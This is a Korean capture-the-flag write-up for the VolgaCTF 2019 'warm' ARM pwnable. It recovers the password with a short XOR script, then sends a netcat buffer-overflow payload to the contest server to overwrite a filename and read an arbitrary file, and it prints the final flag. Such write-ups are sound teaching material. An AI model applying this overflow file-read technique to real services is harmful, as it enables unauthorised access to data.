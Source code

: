 ```yaml
---
layout: post
title: [volgaCTF 2019] warm
excerpt_separator: <!--more-->
tags:
  - Vertex
  - VolgaCTF2019
  - Write-up
---
```


대회 이후에 푼 volgaCTF 2019 warm 포너블 문제.
<!--more-->


## VolgaCTF2019 - warm

arm 바이너리로 되어있는 간단한 포너블 문제이다.



arm 명령어는 익숙치 않아서

hexray를 사용하고, 호출하는 함수 역할대로 네이밍을 해보면

![](https://i.imgur.com/Z8KZMMP.png)





선언된 내부 변수명 설정.

![](https://i.imgur.com/MsbflRq.png)



이 바이너리는

1. flag파일의 이름을 환경변수로부터 가져온다. 환경변수에 없으면 그냥 “flag”
2. 패스워드를 gets로 inputBuf[100]에 입력받는다. (버퍼오버플로우 발생)
3. 입력값을 chkPassword로 확인
4. filename에 들어있는 파일을 읽어서 화면에 뿌려줌.



gets에서는 버퍼오버플로우가 발생하는데, 이를 통해 inputBuf[100]을 넘겨서 filename을 덮어쓸 수 있습니다. 그럼 임의의 파일을 읽을 수 있습니다.



풀이 절차는

1. chkPassword 함수를 분석해 암호를 알아낸다.

 	2. 버퍼오버플로우를 이용해 flag파일을 읽는다. 또는 쉘을 얻어낸다.



## chkPassword 함수를 통해 암호 알아내기

![](https://i.imgur.com/Z9AVcMd.png)

상당히 노골적인(?) 암호 체크 함수입니다.

각 조건별로 (passChr[i] ^ passChr[i-1]) == ?? 형태이고, 

?? ^ passChr[i-1] 를 통해 passChr[i]의 값을 알아낼 수 있습니다.

passChr[0]은 85 ^ 0x23 즉 76입니다.

이 값을 이용해 연쇄적으로 모든 password를 알아낼 수 있습니다.



```python
key = [85,78,30,21,94,28,33,1,52,7,53,17,55,60,114,71]

passChr = 35 # 0x23

password = ""
for i in key:
    passChr = i ^ passChr
    password += chr(passChr)

print(password)
```

```
v8&3mqPQebWFqM?x
```





```
python -c "print('v8&3mqPQebWFqM?x');" | nc warm.q.2019.volgactf.ru 443 
```

\>>>

```
Hi there! I've been waiting for your password!
v8&3mqPQebWFqM?x
Seek file with something more sacred!
```





## flag 파일 읽기

BOF를 이용해 filename을 덮어쓸 수 있습니다.

inputBuf 크기가 100이고, 아까 구한 패스워드 크기가 16이므로,

```
( password ) + ( 84 크기 dummy ) + (읽을 파일명)
```



으로 페이로드를 짜면 됩니다.



아까 패스워드를 입력해서 환경변수로 등록된 flag파일의 내용이

```
Seek file with something more sacred!
```

였고, 다른 writeup들을 찾아본 결과 “sacred” 파일을 읽으면 된다네요.



``` sh
python -c "print('v8&3mqPQebWFqM?x'+'A'*84+'sacred');" | nc warm.q.2019.volgactf.ru 443 
```



이렇게 찾은 플래그는

```
VolgaCTF{1_h0pe_ur_wARM_up_a_1ittle} 
```

